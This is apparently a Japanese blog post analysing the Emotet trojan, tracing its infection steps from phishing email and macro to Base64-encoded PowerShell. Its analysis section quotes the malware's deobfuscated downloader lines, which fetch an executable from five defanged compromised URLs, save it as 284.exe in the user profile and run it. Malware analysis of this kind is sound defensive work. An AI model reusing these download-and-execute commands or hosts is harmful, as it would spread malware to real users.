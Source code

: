 ```yaml
---
date: 2022-10-13T04:00:00
draft: false
title: "Emotet マルウェアの分析"
description: 
featured_image: "cdn/respond/emotet-malware-analysis-1.png"
tags: ["Emotet", "トロイの木馬", "PowerShell", "マルウェア", "サイバーセキュリティ"]
---
```


## Emotetとは？

- 主にメールを通じて拡散されるトロイの木馬
- 正規のメールのように偽装し、ユーザーに悪意のあるファイルをクリックさせる手法
- トロイの木馬を更新し、システムにアクセスを確立した後、運営者が追加ペイロードをダウンロードできるようにする「ローダー」型のマルウェア
- 感染したホストから銀行の資格情報を盗む、被害者から金銭を搾取することを目的に動作
<br>

<!--more-->

![emotet-malware-analysis](https://blog.plura.io/cdn/respond/emotet-malware-analysis-1.png)

## Emotet 実行/分析

### 1. ソーシャルエンジニアリング手法を用いて攻撃対象にメールを送信
![02](https://github.com/user-attachments/assets/5dae9811-e676-4697-b7ee-a84f229d9b2b)
<br><br>


### 2. 攻撃対象が疑わず添付ファイルをダウンロード
![03](https://github.com/user-attachments/assets/e647b197-5a0b-47da-abd9-f13709fc17fc)
<br><br>


### 3. ファイルを開き、マクロを実行するため「コンテンツの有効化」をクリック
![04](https://github.com/user-attachments/assets/7f4d218d-10d8-4d50-a008-31c9ee7e304f)
<br><br>


### 4. Base64でエンコードされたコードがPowerShellプロセスで実行される
![05](https://github.com/user-attachments/assets/80f38782-331a-49e3-aebc-9ba41e7a2c36)
<br><br>


### 5. PowerShellコマンドによってconhostが実行
![06](https://github.com/user-attachments/assets/86c4c82b-baae-45af-b68b-e9cea82786aa)

![07](https://github.com/user-attachments/assets/ad597df8-9608-4995-9dfa-b6b38545088e)
<br><br>


### 6. PowerShellスクリプトコードの実行
![08](https://github.com/user-attachments/assets/54c535af-f81f-44d5-870e-d7d9e5de3d84)
<br><br>


### 7. PowerShellスクリプトコードの分析
![09](https://github.com/user-attachments/assets/e875c2f5-5371-41d6-97ea-f31777ccc789)
<br>

1) 以下のURLからファイルをダウンロード
new-object NeT.wEBClIEnt DOwNlOaDfiLe(hxxp://blockchainjoblist.com/wp-admin/014080/)
new-object NeT.wEBClIEnt DOwNlOaDfiLe(hxxps://womenempowermentpakistan.com/wp-admin/paba5q52/)
new-object NeT.wEBClIEnt DOwNlOaDfiLe(hxxps://atnimanvilla.com/wp-content/073735/)
new-object NeT.wEBClIEnt DOwNlOaDfiLe(hxxps://yeuquynhnhai.com/upload/41830/)
new-object NeT.wEBClIEnt DOwNlOaDfiLe(hxxps://deepikarai.com/js/4bzs6/)

2) 以下のパスにファイルを保存
$env:userprofile\284.exe

3) 23931バイト以上の場合実行
(Get-Item $env:userprofile\284.exe).LeNgTh -ge 23931

<br>

### 8. ユーザーフォルダーにファイル生成
![010](https://github.com/user-attachments/assets/c0522f7e-2c7c-4751-90c5-a3780de0902b)

![011](https://github.com/user-attachments/assets/3bf9893f-d832-4331-bc2b-5be171e84f9e)

![012](https://github.com/user-attachments/assets/773bc501-4236-4bbc-9766-510595828a77)
<br>

## [参考]
- https://en.wikipedia.org/wiki/Emotet<br>
- https://www.malwarebytes.com/emotet
